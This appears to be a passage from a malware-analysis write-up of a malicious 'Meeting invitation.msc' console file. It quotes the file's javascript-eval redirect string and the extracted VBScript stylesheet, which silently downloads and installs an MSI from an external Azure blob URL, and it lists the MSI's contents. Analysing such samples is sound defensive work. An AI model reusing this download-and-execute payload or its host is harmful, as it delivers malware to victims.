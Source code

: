 ```
                <String ID="24" Refs="1">{2933BF90-7B36-11D2-B20E-00C04F983E60}</String>
                <String ID="38" Refs="2">Main</String>
                <String ID="39" Refs="1">res://apd
                s.dll/redirect.html?target=jav
                ascript:eval((((external.Document.ScopeName
                space.GetRoot().Name))))</String>
            </Strings>
        </StringTable>
    </StringTables>
    <BinaryStorage>
        <Binary>AQAAABQAAAAAAAAAJgAAACcAAAA=</Binary>
        <Binary>AQAAABQAAAAAAAAAFwAAABgAAAA=</Binary>
        <Binary Name="CONSOLE_FILE_ICON_LARGE">SUwBAQEABAAEACAAIAD/////IQD//////////0JNNgAAAAAAAA...
AAAAAAA+AAB/wAAAAAAAAAAAAAAAP////8AAAAAAAAAAAAAAAD/////AAAAAAAAAAAAAAAA    </Binary>
        <Binary Name="CONSOLE_FILE_ICON_SMALL">SUwBAQEABAAEABAAEAD/////IQD//////////0JNNgAAAAAAAA...
ADAAwAAAAAAAMAHAAAAAAAA</Binary>
        <Binary Name="CONSOLE_FILE_ICON_LARGE48x">SUwBAQEABAAEADAAMAD/////IQD//////////0JNNgAAAAA...
AAAAAAA////////AAAAAAAAAAAAAAAAAAAAAAAA////////AAAAAAAAAAAAAAAAAAAAAAAA    </Binary>
    </BinaryStorage>
</MMC_ConsoleFile>
```

An url encoded xml string can be extracted from the msc file. It contains a VBA script which downloads and executes a MSI installer.

```
emit "Meeting invitation.msc" | carve string -s | url
"<?xml version='1.0'?>
<stylesheet
xmlns="http://www.w3.org/1999/XSL/Transform" xmlns:ms="urn:schemas-microsoft-com:xslt"
xmlns:user="placeholder"
version="1.0">
<output method="text"/>
<ms:script implements-prefix="user" language="VBScript">
<![CDATA[
on error resume next
Set wshshell = CreateObject("WindowsInstaller.Installer")
wshshell.uilevel=2
wshshell.installproduct "https://cdn7s65.z13.web.core.windows.net/ver.dat","REMOVE=ALL"
wshshell.installproduct("https://cdn7s65.z13.web.core.windows.net/ver.dat")
]]></ms:script>
</stylesheet>"
```
Contents of the downloaded MSI installer are one CAB archive and multiple MSI tables.
```
emit ver.dat | xtmsi -l
CHROskYaKLM.cab
MsiTables.json
MsiTables/AdminExecuteSequence.csv
MsiTables/AdminUISequence.csv
MsiTables/AdvtExecuteSequence.csv
MsiTables/Component.csv
MsiTables/CustomAction.csv
MsiTables/Directory.csv
MsiTables/Feature.csv
MsiTables/FeatureComponents.csv
MsiTables/File.csv
MsiTables/InstallExecuteSequence.csv
MsiTables/InstallUISequence.csv
MsiTables/Media.csv
MsiTables/MsiFileHash.csv
```